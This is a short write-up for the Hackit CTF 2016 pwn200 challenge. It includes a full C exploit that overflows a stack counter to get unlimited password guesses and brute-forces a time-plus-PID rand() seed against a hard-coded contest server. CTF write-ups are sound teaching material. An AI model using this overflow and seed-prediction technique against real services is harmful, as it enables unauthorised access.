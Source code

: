 ```yaml
---
title: Hackit CTF 2016 - t2yh4rd - pwn200 - writeup
---
```


Hello,

This writeup will be quick and dirty. The idea behind the challenge is about guessing a random generated password to win the game and get a shell. You lose the game after 3 bad tries.

I spent much time reversing the binary, to figure out how the password is generated, because this is the first time I deal with a  _Position Independent Executable._

Well, to solve the task all what we need is to guess the value used to seed the random number generator. Like this we can determine the generated password.

The seed is calculated based on current time stamp and current process id. We don't know the pid. We have to bruteforce it. But we have only 3 tries !. Easy ! just overflow the "tries" variable buffer in stack to get infinite tries. That's all !

Here is the exploit. Don't ask me why I wrote it in C !

<!--more-->

```c
#include <time.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netdb.h>
#include <string.h>
#include <errno.h>
#include <arpa/inet.h>

void rnds(char * s, unsigned l, unsigned int ts, unsigned int pid) {
srand(ts + pid);
int i;
for (i = 0; i < l; ++i) {
s[i] = rand() % 94 + 33;
}
s[i] = '\n';
s[i + 1] = '\0';
}

int main(void) {
int sockfd = 0, n = 0;
char buf[1024];
struct sockaddr_in serv_addr;

memset(buf, '\0', sizeof(buf));
if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
printf("\n Error : Could not create socket \n");
return 1;
}
memset( & serv_addr, '0', sizeof(serv_addr));

serv_addr.sin_family = AF_INET;
serv_addr.sin_port = htons(9002);

if (inet_pton(AF_INET, "91.231.84.36", & serv_addr.sin_addr) <= 0) {
printf("\n inet_pton error occured\n");
return 1;
}

if (connect(sockfd, (struct sockaddr * ) & serv_addr, sizeof(serv_addr)) < 0) {
printf("\n Error : Connect Failed \n");
return 1;
}

//Receive a reply from the server
if (recv(sockfd, buf, 1024, 0) < 0) {
printf("\n Error : recv Failed \n");
return 1;

}

puts(buf);
char * overflow_tries = "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\n";

if (send(sockfd, overflow_tries, strlen(overflow_tries), 0) < 0) {
printf("\n Error : send Failed \n");
return 1;
}

int pid;

unsigned int ts = time(0);
//unsigned int pid = getpid();

for (pid = 32000; pid < 40000; pid++) {

char guess[6];

rnds(guess, 4, ts, pid);
printf("[+] Pid %d", pid);
printf("[+] Trying %s", guess);

memset(buf, '\0', sizeof(buf));
if (recv(sockfd, buf, 1024, 0) < 0) {
printf("\n Error : recv Failed \n");
return 1;
}

if (send(sockfd, guess, strlen(guess), 0) < 0) {
printf("\n Error : send Failed \n");
return 1;
}

puts(buf);

}

return 0;
}

```
After few seconds I got the flag. **h4ck1t{S0M3tiM35_n33D_b2UtEf02c3}**
